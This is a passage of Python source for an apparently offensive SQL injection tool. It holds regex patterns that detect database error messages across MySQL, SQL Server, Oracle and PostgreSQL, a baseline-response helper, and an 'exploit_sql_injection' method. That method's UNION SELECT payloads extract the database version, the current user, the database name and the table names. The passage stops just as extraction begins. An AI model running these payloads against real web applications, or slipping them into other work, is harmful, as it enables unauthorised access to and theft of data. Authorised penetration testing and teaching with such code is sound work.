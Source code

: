 ```python
            r"MySQL.*Error",
            r"Warning.*mysql.*",
            r"MySQLSyntaxErrorException",
            r"valid MySQL result",
            r"check the manual that corresponds to your MySQL server version",
            
            # SQL Server
            r"Microsoft.*ODBC.*SQL Server",
            r"SQLServer JDBC Driver",
            r"SqlException",
            r"System.Data.SqlClient.SqlException",
            
            # Oracle
            r"ORA-\d{5}",
            r"Oracle.*Driver",
            r"Oracle.*Error",
            
            # PostgreSQL
            r"PostgreSQL.*ERROR",
            r"Warning.*pg_.*",
            r"valid PostgreSQL result",
            
            # Generic
            r"SQL syntax.*error",
            r"syntax error at or near",
            r"unclosed quotation mark",
            r"quoted string not properly terminated"
        ]
        
        for pattern in sql_error_patterns:
            if re.search(pattern, response_text, re.IGNORECASE):
                return True
        return False
    
    def get_normal_response(self, param_name, base_params):
        """Get normal response for comparison"""
        normal_params = base_params.copy()
        normal_params[param_name] = '1'  # Normal value
        
        try:
            response = self.session.get(self.target_url, params=normal_params, timeout=10)
            return response.text
        except:
            return ""
    
    def exploit_sql_injection(self, vulnerable_param, base_params=None):
        """Attempt to exploit confirmed SQL injection"""
        if base_params is None:
            base_params = {}
            
        print(f"\n[*] Attempting to exploit SQL injection in '{vulnerable_param}'...")
        
        # Information gathering payloads
        info_payloads = {
            "Database Version": "' UNION SELECT @@version,NULL --",
            "Current User": "' UNION SELECT user(),NULL --",
            "Current Database": "' UNION SELECT database(),NULL --",
            "List Tables": "' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema=database() --"
        }
        
        extracted_info = {}
        
```